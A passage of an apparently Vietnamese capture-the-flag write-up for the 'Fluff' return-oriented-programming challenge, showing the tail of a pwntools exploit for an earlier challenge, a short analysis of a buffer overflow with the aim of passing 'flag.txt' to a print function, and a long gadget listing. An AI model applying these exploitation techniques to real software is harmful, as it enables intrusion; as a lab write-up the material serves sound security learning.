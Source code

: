 ```python=

p.sendlineafter(b'> ', payload)

p.interactive()
```

# **Fluff**

### Phânn tích
- Tương tự các challenge trên ta có lỗi `Buffer Overflow` và chế độ bảo vệ vẫn thế
- Gợi ý của bài
![image](https://hackmd.io/_uploads/Byg-4xsNR.png)
- Nhiệm vụ của ta cũng giống challenge trước là đưa đối số là chuỗi `flag.txt` vào hàm `printf_file` để in flag
- Ta tìm các gadget có hữu ích để có thể đưa chuỗi `flag.txt`
```
Gadgets information
============================================================
0x0000000000400285 : adc al, 0xd9 ; in eax, 0xfb ; jp 0x4002f6 ; retf 0x8bc4
0x000000000040057e : adc byte ptr [rax], ah ; jmp rax
0x0000000000400502 : adc cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 0 ; jmp 0x4004f0
0x0000000000400632 : add ah, al ; loop 0x40061e ; neg ecx ; ret
0x000000000040061e : add al, bpl ; jmp 0x400621
0x000000000040061f : add al, ch ; jmp 0x400621
0x000000000040054f : add bl, dh ; ret
0x00000000004006ad : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006ab : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400507 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x4004f0
0x0000000000400611 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fc : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x00000000004005fd : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x0000000000400631 : add byte ptr [rax], al ; bextr rbx, rcx, rdx ; ret
0x0000000000400509 : add byte ptr [rax], al ; jmp 0x4004f0
0x0000000000400586 : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fe : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x0000000000400585 : add byte ptr [rax], r8b ; pop rbp ; ret
0x00000000004005ff : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x0000000000400283 : add byte ptr [rbx], ch ; adc al, 0xd9 ; in eax, 0xfb ; jp 0x4002f6 ; retf 0x8bc4
0x00000000004005e7 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400630 : add byte ptr ds:[rax], al ; bextr rbx, rcx, rdx ; ret
0x0000000000400517 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x4004f0
0x00000000004004e3 : add esp, 8 ; ret
0x00000000004004e2 : add rsp, 8 ; ret
0x0000000000400504 : and byte ptr [rax], al ; push 0 ; jmp 0x4004f0
0x0000000000400514 : and byte ptr [rax], al ; push 1 ; jmp 0x4004f0
0x00000000004004d9 : and byte ptr [rax], al ; test rax, rax ; je 0x4004e2 ; call rax
0x0000000000400633 : bextr rbx, rcx, rdx ; ret
0x000000000040070f : call qword ptr [rax + 1]
0x0000000000400624 : call qword ptr [rax - 0x3c283ca3]
0x00000000004007a3 : call qword ptr [rax]
0x00000000004007c3 : call qword ptr [rcx]
0x00000000004004e0 : call rax
0x0000000000400637 : fld st(3) ; stosb byte ptr [rdi], al ; ret
0x000000000040068c : fmul qword ptr [rax - 0x7d] ; ret
0x0000000000400286 : fxam ; sti ; jp 0x4002f6 ; retf 0x8bc4
0x0000000000400603 : in eax, 0x5d ; jmp 0x400590
0x0000000000400287 : in eax, 0xfb ; jp 0x4002f6 ; retf 0x8bc4
0x00000000004004de : je 0x4004e2 ; call rax
```